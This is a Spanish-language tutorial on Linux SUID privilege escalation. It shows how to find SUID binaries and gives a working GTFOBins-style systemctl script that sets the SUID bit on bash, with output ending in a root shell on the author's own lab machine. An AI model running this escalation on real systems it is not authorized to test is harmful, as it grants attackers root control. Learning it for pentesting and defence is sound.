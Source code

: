 # Explotación Permisos SUID

Cuando en un binario o fichero el bit SUID está activado significa que la persona que lo ejecute va a tener los mismos permisos que la persona que lo creó. Es decir, si lo creó root tendremos permisos **root**.

Para asignar un permiso **SUID** a un archivo o binario se utiliza el comando _**chmod**_ añadiéndole un 4 al principio de los permisos que deseamos.

Por ejemplo, si miramos la ruta absoluta del binario systemctl _**/usr/bin/systemctl**_ y miramos los permisos de ese binario:

```bash
rwxr-xr-x 1 root root 1058096 abr 12 20:21 /usr/bin/systemctl
```

Podemos ver que tiene el permiso **«**_**755″**_ pues si le añadimos un 4, es decir, _**4755**_ estaríamos activando los permisos SUID en ese binario.

Y si ahora volvemos a mirar los permisos:

```bash
rwsr-xr-x 1 root root 1058096 abr 12 20:21 /usr/bin/systemctl
```

Vemos que se ha activado un nuevo indicador una _**«s».**_

Podemos buscar en el sistema todos los binarios o archivos que tienen permisos SUID mediante el siguiente comando:

```bash
find / -perm -4000 2>/dev/null
```

### POC (systemctl)

```bash
$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/bin/systemctl
/usr/bin/sudo
/usr/bin/su
```

Como vemos, el binario recientemente modificado (systemctl) se encuentra en la lista.

Este tipo de permisos, en ocasiones, pueden ser explotados para escalar privilegios. Por ejemplo, en este caso, podemos escalar privilegios y llegar a ser root. Si buscamos en la página GTFObins podemos ver que para el binario systemctl hay una posible **explotación** de permisos SUID ([https://gtfobins.github.io/gtfobins/systemctl/](https://gtfobins.github.io/gtfobins/systemctl/)).

En nuestro caso, vamos a modificar los permisos del binario _**/bin/bash**_ para poder ejecutar una instancia de la misma como root. El script modificado sería:

```bash
#!/bin/bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Ejecutamos el script:

```bash
$ ./script
Created symlink /etc/systemd/system/tmp.qRdofPv7gk.service → /tmp/tmp.qRdofPv7gk.service.
Created symlink /etc/systemd/system/multi-user.target.wants/tmp.qRdofPv7gk.service → /tmp/tmp.qRdofPv7gk.service.
```

Si miramos los permisos del binario bash podemos ver cómo han sido modificados:

```bash
$ which bash | xargs ls -la
-rwsr-sr-x 1 root root 1234376 feb 24 21:53 /usr/bin/bash
```

Por lo que ahora, podríamos ejecutar una bash con máximos privilegios:

```bash
$ bash -p
bash-5.1# whoami
root
bash-5.1# id
uid=1000(diegoaltf4) gid=1000(diegoaltf4) euid=0(root) egid=0(root) grupos=0(root),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),121(wireshark),135(scanner),146(kaboxer),1000(diegoaltf4)
```

